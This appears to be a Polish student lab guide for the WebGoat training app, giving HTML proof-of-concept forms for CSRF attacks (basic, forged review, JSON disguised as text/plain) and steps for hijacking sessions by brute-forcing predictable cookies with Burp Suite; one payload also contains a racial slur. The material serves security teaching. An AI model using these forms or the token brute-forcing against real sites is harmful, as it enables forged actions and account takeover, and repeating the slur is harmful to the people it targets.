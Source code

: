 
## INSTALACJA 

Na początku musimy pobrać repozytorium na którym znajduje się nasze oprogramowanie WebGoat którego będziemy używać.

  https://github.com/WebGoat/WebGoat

Dodatkowo będziemy potrzebowali dockera i xamppa 

  https://www.docker.com/products/docker-desktop/
  https://www.apachefriends.org/pl/download.html

Po instalacji wszystkich 3 rzeczy możemy przejść do części praktycznej naszego projektu. 
### URUCHOMIENIE WEBGOAT
```bash
  docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```
  W przypadku jakichś problemów z uruchomieniem kontenera możemy spróbować uruchomić go na innym porcie, należy zapamiętać ten port gdyż będzie on wykorzystywany  w dalszej części.


# ZADANIA 
### ZADANIE 1
1. Pierwszym krokiem jest utworzenie profilu użytkownika
![App Screenshot](https://snipboard.io/ejtuPR.jpg)

2. Następnie przechodzimy do zakładki Server-side Request Forgery i wybieramy Cross-Site Request Forgeries. Zalecamy zaponzać się z dodatkową treścią umieszczoną na pierwszych dwóch slajdach w celu łatwiejszego zrozumienia tematu.

3. Teraz przechodzimy do zakładki Basic Get CSRF Exercise, w której wykonamy pierwsze zadanie. W tym momencie musimy uruchomić serwer apache. Celem tego zadania jest uruchomienie poniższego formularza z zewnętrznego źródła podczas logowania. Odpowiedź będzie zawierać "flagę" (wartość liczbową) którą wpiszemy poniżej.
4. Tworzymy plik do którego musimy wkleić kod  
```html
<html>
	<body>
	<script>history.pushState('','', '/')</script>
	 <form action="http://localhost:{NUMER_PORTU}/WebGoat/csrf/basic-get-flag" method="POST">
		<input type="hidden" name="csrf" value="false" />
		<input type="hidden" name="submit" value="Submit&#32;Query"/>
		<input type="submit" value="Submit request" />
	 </form>
	</body>
</html>
```
Po uruchomieniu tego kodu powiniśmy otrzymać status, że zadanie zostało wykonane poprawnie. Dodatkowo zwrócona została wartość liczoba flagi, którą musimy wkleić do formularza.
<br>![App Screenshot](https://snipboard.io/CZyGlD.jpg)

### ZADANIE 2
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytania wysyłane poprzez formularz z opiniami. Gdy dodamy opinię powiniśmy zauważyć wysłane zapytanie metodą POST. 
2. W tym przypadku również będziemy tworzyć plik z naszym kodem. Będzie potrzebne nam:
- post url request
- content type
- parametry 
```html
	<html>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/review method=post enctype='application/x-www-form-urlencoded; charset=UTF-8'>
		<input name='pierwszy_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='drugi_parametr' value='dowolna_wartosc' type='hidden'> 
		<input name='trzeci_parametr' value='wartosc_odczytana' type='hidden'> 
		<input type=submit value="Submit">
	</form>
</html>
```
	<input name='' value='totalnielosowe' type='hidden'> - sprawia że ofiara nie jest świadoma ataku który jest przeprowadzany.
3. Po wykonaniu powyższego kodu i odświeżenia głównej strony jesteśmy w stanie zobaczyć dwie opinie.

### ZADANIE 3
1. Na początku możemy włączyć konsolę [f12] i zaobserwować zapytanie wysyłane poprzez wiadomość którą uzupełniliśmy.

2. Warto zwrócić uwagę tutaj na content type.
![App Screenshot](https://snipboard.io/9OYCsH.jpg)

3. W przypadku zapytania POST i użycia content-type innego niż 3 wyżej wymienione zapytanie nie jest już wtedy proste, jest uznawane jako "preflighted request". 

4. W zapytaniu preflighted request wykonywane są dodatkowe sprawdzenia bezpieczeństwa przez serwer w celu sprawdzenia czy na prawdę jesteśmy autoryzowanym użytkownikiem do wykonania zapytania. Dlatego chcemy unikać tego typu zapytań. 

5. Zmienimy nasze zapytanie aby wykorzystywało "text/plain" zamiast "application/json"
```html
<html>
	<title>JSON CSRF POC</title>
	<center> 
	<h1>JSON CSRF POC </h1>
	<form action=http://localhost:{NUMER_PORTU}/WebGoat/csrf/feedback/message method=post enctype ="application/json">
	<input name='{"name":"WebGoat","email":"webgoat@webgoat.org","content":"Webgoat nigger","ignore_me":"'value = 'test"}' type=hidden>
	<input type=submit value="Submit">
	</form>
	</center>
</html>
```

6. Próbujemy zamaskować typ z json aby był traktowany jako zwykły tekst, dlatego używamy takiego sposobu przekazania parametrów. Parametr ignore_me jest używany w celu ominięcia problemu w którym jest to traktowane jako json.

### ZADANIE 4
1. Uruchamiamy oprogramowanie Burp Suite Community Edition, ustawiamy serwer proxy w ustawieniach windowsa i otwieramy odpowiednią przeglądarke (dokładna instrukcja konfiguracji na Upelu przedmiotu, zakładka "Zajęcia laboratoryjne numer 2")

2. Przechodzimy do zakładki (A1) Broken access control i wybieramy Hijack a session.

3. W HTTP history musimy odszukać żądanie które zawiera ciasteczka <script>hijack_cookie</script> i przesłać je do sequencera
   <br> ![App Screenshot](https://snipboard.io/DS8f1Q.jpg)

4. W sequencerze za pomocą live capture generujemy kilkadziesiąt/kilkaset tokenów i zapisujemy je do pliku tekstowego

5. Możemy zauważyć, że klucze są podzielone na dwie części, a ich wartości nie są losowe - pierwsza część jest czymś w rodzaju numeru użytkownika, a druga przypomina timestamp.
   <br> ![App Screenshot](https://snipboard.io/OLf5ph.jpg)

6. Żeby przeprowadzić atak brutalny należy przesłać zapytanie z ciasteczkiem <code>hijack_cookie</code> do intrudera i metodą prób i błędów próbować znaleźć token używany przez innego użytkownika.
Jeśli w zapytaniu nie przesyłane jest ciasteczko <code>hijack_cookie</code>, to trzeba jeszcze raz wysłać formularz.
Do znalezienia klucza potrzeba troche szczęścia, raczej nie znajdziecie go przy pierwszej próbie ataku.
